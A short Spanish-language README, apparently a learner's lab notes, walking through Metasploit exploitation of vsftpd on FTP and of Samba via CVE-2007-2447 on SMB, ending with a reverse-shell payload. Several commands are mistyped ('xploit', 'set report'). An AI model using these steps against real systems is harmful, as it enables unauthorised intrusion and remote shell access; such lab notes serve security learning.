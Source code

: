 # vulnerabilidades

aqui veremos algunas vulnerabilidades de algunos sistemas

### Listas 

- FTP en linux
- SMB en linux

# FTP en linux

lo primeros que haremos es escanear los puertos con nmap y vemos los puertos que estan abiertos esta abierto el 21,
despues usaremos el search vsftp para comprobar el servicio en funcionamiento

y nos apareceran las opciones que podemos usar, en mi caso utilizare la segunda opcion, por lo tanto escribo use 1

y nos responde que no hay payloads y escribimos options ahora utilizaremos el modulo rhost escribiendo set RHOST [ip del objetivo]
podemos utilizar options para ver que podemos hacer a continuacion usaremos el comando xploit
y entrara en el FTP

# SMB en linux
voveremos a analizar los puertos y viendo que tenemos el puerto 445 abierto vamos atacarlo (el servicio de SMB)
podemos hacer un escaneo en profundidad con "nmap -sV -p 445 [ip Objetivo]" sabiendo esto vamos a iniciar la mfsconsola
ejecutaremos un auxilar de smb con el comando "use auxiliary/scanner/smb/smb_version"
ahora utilizamos el comando set hosts [ip objetivo]
y usaramos search para buscar el codigo de la vulnerabilidad "search cve:2007-2447"
escribimos el exploit que nosindica en los modulos
y ahora ponemos "show options"
y ahora con "set rhost [ip objetivo]"
y "set report 445"
y "show options"
y "show payloads" para ver los payloads y usaremos el cmd/unix/reverse
y ya tenemos todo preparado para ejecutar el exploit
